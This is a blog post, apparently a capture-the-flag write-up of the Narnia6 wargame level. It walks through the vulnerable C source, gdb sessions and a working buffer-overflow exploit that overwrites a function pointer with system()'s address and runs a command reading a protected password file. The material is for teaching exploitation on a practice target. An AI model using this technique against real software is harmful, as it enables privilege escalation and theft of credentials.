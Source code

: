 ```yaml
---
layout: post
title:  "Buffer Overflows: Narnia6"
date:   2017-07-24 14:15:50 -0400
categories: master
---
```



The source code:

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

extern char **environ;

// tired of fixing values...
// - morla
unsigned long get_sp(void) {
       __asm__("movl %esp,%eax\n\t"
               "and $0xff000000, %eax"
               );
}

int main(int argc, char *argv[]){
	char b1[8], b2[8];
	int  (*fp)(char *)=(int(*)(char *))&puts, i;

	if(argc!=3){ printf("%s b1 b2\n", argv[0]); exit(-1); }

	/* clear environ */
	for(i=0; environ[i] != NULL; i++)
		memset(environ[i], '\0', strlen(environ[i]));
	/* clear argz    */
	for(i=3; argv[i] != NULL; i++)
		memset(argv[i], '\0', strlen(argv[i]));

	strcpy(b1,argv[1]);
	strcpy(b2,argv[2]);
	//if(((unsigned long)fp & 0xff000000) == 0xff000000)
	if(((unsigned long)fp & 0xff000000) == get_sp())
		exit(-1);
	fp(b1);

	exit(1);
}
```
What's interesting about this code is the following:
```
if(((unsigned long)fp & 0xff000000) == get_sp())
	exit(-1);
```
This means that if `fp` has the same address as our stack, it doesn't get executed. Instead, the program just exits. Since any shellcode we input gets injected into the stack, we can't use this method.
We notice that this program includes `stdlib.h`, which includes the `system()` function. What we can do is overwrite `fp`, which current points to `puts()` to `system()`, which will then attempt to execute it's input.

Let's do a test run, we'll set up a break point right before the last `exit()` function:
```
(gdb) disass main
Dump of assembler code for function main:
   0x08048559 <+0>:	push   ebp
   0x0804855a <+1>:	mov    ebp,esp
   0x0804855c <+3>:	push   ebx
   0x0804855d <+4>:	and    esp,0xfffffff0
   0x08048560 <+7>:	sub    esp,0x30
[snip]
   0x080486b2 <+345>:	call   eax
   0x080486b4 <+347>:	mov    DWORD PTR [esp],0x1
   0x080486bb <+354>:	call   0x8048410 <exit@plt>
End of assembler dump.
(gdb) break *main+354
Breakpoint 1 at 0x80486bb
(gdb) run $(python -c 'print "A"*7') $(python -c 'print "B"*7')
Starting program: /narnia/narnia6 $(python -c 'print "A"*7') $(python -c 'print "B"*7')
AAAAAAA
```
We see that prints out our first buffer, which is what `puts` does.

Let's look at the stack:
```
(gdb) x/12xw $esp
0xffffd6d0:	0x00000001	0xffffd8f7	0x00000021	0x08048712
0xffffd6e0:	0x00000003	0xffffd7a4	0x42424242	0x00424242
0xffffd6f0:	0x41414141	0x00414141	0x080483f0[1]	0x00000003
```
`[1]` currently points to `puts()`:
```
(gdb) x/4i 0x080483f0
   0x80483f0 <puts@plt>:	jmp    DWORD PTR ds:0x8049968
   0x80483f6 <puts@plt+6>:	push   0x10
   0x80483fb <puts@plt+11>:	jmp    0x80483c0
   0x8048400 <__gmon_start__@plt>:	jmp    DWORD PTR ds:0x804996c
```
We'll need to overwrite this address with `system()`. In gdb, we can get the address of a function using `print`:
```
(gdb) print &system
$1 = (<text variable, no debug info> *) 0xf7e62e70 <system>
```
Let's inject the address into `b1`:

```
(gdb) run $(python -c 'print "A"*8 + "\x70\x2e\xe6\xf7"') $(python -c 'print "B"*7')
Starting program: /narnia/narnia6 $(python -c 'print "A"*8 + "\x70\x2e\xe6\xf7"') $(python -c 'print "B"*7')
sh: 1: AAAAAAAAp.��: not found

Breakpoint 1, 0x080486bb in main ()
(gdb) x/12xw $esp
0xffffd6d0:	0x00000001	0xffffd8f7	0x00000021	0x08048712
0xffffd6e0:	0x00000003	0xffffd7a4	0x42424242	0x00424242
0xffffd6f0:	0x41414141	0x41414141	0xf7e62e70	0x00000000
(gdb) 
```

We've successfully overwritten `fp` with `system()`. Now to leverage this exploit to get the next level's password.
The argument of `sh` is `b1`, which includes our address. Any command we could possibly inject into our buffer would include the address. To bypass this, we'll create a file `/tmp/aaa[return address]` which has the command `cat /etc/narnia_pass/narnia7`, which `system()` will execute with elevated privileges:
```
narnia6@narnia:/narnia$ echo 'cat /etc/narnia_pass/narnia7' > $(python -c 'print "/tmp/aaa" + "\x70\x2e\xe6\xf7"')
```
We'll have to add executable rights to the file. 
```
narnia6@narnia:/narnia$ chmod 777 $(python -c 'print "/tmp/aaa" + "\x70\x2e\xe6\xf7"')
```
And finally we run the code:
```
narnia6@narnia:/narnia$ ./narnia6 $(python -c 'print "/tmp/aaa" + "\x70\x2e\xe6\xf7"') $(python -c 'print "B"*7')
[password]
```
Which gives us the password.
